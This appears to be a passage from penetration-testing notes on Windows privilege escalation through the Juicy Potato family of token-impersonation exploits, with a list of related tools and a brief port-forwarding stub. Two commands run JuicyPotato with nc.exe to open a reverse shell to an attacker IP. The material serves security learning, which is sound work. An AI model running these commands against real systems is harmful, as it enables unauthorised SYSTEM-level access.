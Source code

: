 The exploit Rotten Potato was relatively restricted. Juicy Potato works in the same manner that Rotten Potato does, but the authors performed a lot of research and came up with a lot of new ways to use it.

{% embed url="https://github.com/ohpe/juicy-potato" %}

We can execute JuicyPotato with the following example:

```
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443"
```

#### Error 10038

This usually happens when the CLSID is not correct. As we know with the system that we are on a Windows 10 Enterprise machine, we can look for the correct CLSID in [Interesting CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) we find the corresponding CLSID, and with the parameter -c:

```
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c .\nc.exe -e cmd 10.10.14.8 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

## Common Exploits

[Juicy Potato](https://github.com/ohpe/juicy-potato) Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation

⚠️ Works only until Windows Server 2016 and Windows 10 until patch 1803

[Lovely Potato](https://github.com/TsukiCTF/Lovely-Potato) Automated Juicy Potato

⚠️ Works only until Windows Server 2016 and Windows 10 until patch 1803

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) Exploit the PrinterBug for System Impersonation

🙏 Works for Windows Server 2019 and Windows 10

[RoguePotato](https://github.com/antonioCoco/RoguePotato) Upgraded Juicy Potato

🙏 Works for Windows Server 2019 and Windows 10

## Network

### Port Forwarding

The susceptible program may be listening on an internal port at times (e.g localhost). In these circumstances, we must redirect a port on Kali to a Windows internal port.

Enumerate routing tables:

```
route print
```
